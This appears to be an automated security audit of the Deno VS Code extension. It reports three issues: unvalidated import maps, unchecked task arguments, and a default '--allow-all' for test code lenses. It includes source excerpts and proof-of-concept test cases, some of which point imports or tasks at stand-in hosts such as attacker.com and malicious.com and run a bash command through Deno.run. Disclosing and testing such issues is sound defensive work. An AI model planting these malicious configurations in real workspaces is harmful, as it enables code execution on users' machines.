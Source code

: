 ### Vulnerabilities Matching Criteria

#### 1. **Unvalidated Import Map Configuration Leading to Code Execution**
**Description**
The Deno extension allows workspace configurations to specify an `importMap` setting without proper validation. An attacker can create a malicious `deno.json` or `deno.jsonc` file in a workspace defining a malicious `import_map.json` that redirects legitimate module imports to attacker-controlled servers. When the extension processes this configuration (e.g., via `deno test`, `deno run`, or language server operations), it fetches and executes malicious modules from the redirected URLs, leading to unauthorized code execution.

**Trigger Steps**
1. An attacker crafts a project with a `deno.json` file containing an `importMap` pointing to a malicious import map file (e.g., `import_map.json`).
2. The malicious import map (`import_map.json`) maps legitimate module names (e.g., `https://deno.land/std`) to attacker-controlled URLs hosting malicious code.
3. The extension reads the `importMap` from the configuration.
4. When the user runs Deno commands (e.g., via test code lenses, tasks, or debugging), the extension uses the malicious import map, causing Deno to fetch and execute the attacker's modules.

**Impact**
Critical: Attackers can execute arbitrary code in the user’s environment under the permissions of the Deno process. This includes access to the file system, network, and environment variables.

**Vulnerability Rank**
Critical

**Currently Implemented Mitigations**
None. The code directly uses the `importMap` value from configuration without validation.

**Missing Mitigations**
- Validate that `importMap` paths are within the workspace or trusted locations.
- Warn users before trusting external import maps.

**Preconditions**
- The workspace configuration includes a `deno.importMap` pointing to a malicious file.
- The user enables Deno for the workspace (via `deno.enable: true`).

**Source Code Analysis**
- **client/src/commands.ts**:
  ```typescript
  if (importMap?.trim()) {
    testArgs.push("--import-map", importMap.trim());
  }
  ```
  The `importMap` is read from user configuration (`config.get("importMap")`) and passed directly to Deno commands without validation.

- **client/src/debug_config_provider.ts**:
  ```typescript
  if (settings.importMap) {
    args.push("--import-map");
    args.push(settings.importMap.trim());
  }
  ```
  Similar usage in debug configurations allows malicious `--import-map` flags.

**Security Test Case**
1. Create a workspace with:
   - `deno.json`:
     ```json
     { "importMap": "./attack_map.json" }
     ```
   - `attack_map.json`:
     ```json
     {
       "imports": {
         "https://deno.land/std@0.190.0/": "https://attacker.com/malicious_std/"
       }
     }
     ```
2. Enable Deno for the workspace via `deno.enable: true`.
3. Run a Deno command through the extension (e.g., a test code lens on a file importing `std` modules).
4. Observe that Deno fetches `attacker.com/malicious_std`, executing the attacker’s code.

---

#### 2. **Unvalidated CLI Arguments in Deno Tasks Leading to Command Injection**
**Description**
The extension allows users to define Deno tasks in `tasks.json` or via configuration files without validating the command arguments. An attacker can create a malicious task definition with arbitrary Deno CLI arguments (e.g., `--allow-all` combined with a malicious script path), executing arbitrary code when the task is run.

**Trigger Steps**
1. An attacker creates a `tasks.json` with a task like:
   ```json
   {
     "type": "deno",
     "command": "run",
     "args": ["--allow-all", "https://malicious.com/shell.ts"]
   }
   ```
2. The user runs the task via the extension’s task runner.
3. The extension executes the command without validating the URL or flags, leading to arbitrary code execution.

**Impact**
Critical: Attackers can execute arbitrary code from remote or local paths with full permissions.

**Vulnerability Rank**
Critical

**Currently Implemented Mitigations**
None. The extension passes user-provided arguments directly to the Deno CLI.

**Missing Mitigations**
- Sanitize arguments to prevent remote URLs or dangerous flags (e.g., `--allow-all`).
- Restrict allowed commands (e.g., only allow pre-defined Deno subcommands).

**Preconditions**
- A malicious task is defined in the workspace’s `tasks.json`.
- The task is executed via the extension (e.g., via the Tasks sidebar or keyboard shortcut).

**Source Code Analysis**
- **client/src/tasks.ts**:
  ```typescript
  args.push(command, ...definition.args);
  ```
  `definition.args` comes from user-provided `tasks.json` and is used without validation.

- **client/src/tasks_sidebar.ts**:
  The task provider (`DenoTaskProvider`) constructs tasks from user-defined definitions, including arbitrary arguments.

**Security Test Case**
1. Create a `tasks.json` with:
   ```json
   {
     "version": "2.0.0",
     "tasks": [
       {
         "type": "deno",
         "label": "Attack Task",
         "command": "run",
         "args": [
           "--allow-run",
           "https://malicious.com/puppet.ts"
         ]
       }
     ]
   }
   ```
2. Run the task via the extension’s task runner.
3. Observe that Deno executes `puppet.ts`, which could spawn malicious processes.

---

#### 3. **Unrestricted Use of "--allow-all" Flag in Test Code Lenses**
**Description**
Test code lenses (e.g., "Run Test") invoke Deno tests with default arguments including `[ "--allow-all" ]`. An attacker can exploit this by creating a test file that executes unsafe code (e.g., `Deno.run()`) which the `--allow-all` flag permits, leading to arbitrary code execution.

**Trigger Steps**
1. An attacker creates a test file (`test.ts`) with:
   ```typescript
   Deno.run({ cmd: ["bash", "-c", "echo 'Malicious payload' > /tmp/exploit"] });
   Deno.test("Exploit", () => {});
   ```
2. The user clicks the test code lens to run the test.
3. The extension executes `deno test --allow-all test.ts`, allowing filesystem writes via `Deno.run`.

**Impact**
High: Attackers can perform unauthorized file operations, execute commands, or access sensitive data.

**Vulnerability Rank**
High

**Currently Implemented Mitigations**
None. The default `deno.codeLens.testArgs` includes `--allow-all`.

**Missing Mitigations**
- Allow users to configure test arguments securely (avoid `--allow-all` by default).
- Sanitize test code before execution.

**Preconditions**
- Test files exist in the workspace.
- The user interacts with test code lenses.

**Source Code Analysis**
- **docs/testing.md**:
  The default `deno.codeLens.testArgs` is `[ "--allow-all" ]`.
- **client/src/commands.ts**:
  ```typescript
  testArgs: [ ...(config.get<string[]>("codeLens.testArgs") ?? []), ]
  ```
  If `codeLens.testArgs` is unconfigured, `--allow-all` is used, bypassing Deno’s security policies.

**Security Test Case**
1. Create `test.ts` as described.
2. Ensure `deno.codeLens.testArgs` is unset (default).
3. Click the test code lens to run the test.
4. Check `/tmp/exploit` is created with malicious content.

---

### Excluded Vulnerabilities
- **Unvalidated Configuration of Deno Path Leading to Binary Replacement**: Excluded because it is unrelated to the specified attack vectors (import maps or unvalidated CLI commands).
- **Unrestricted Environment Variables in Debug Tasks**: Excluded because it is unrelated to the specified attack vectors.
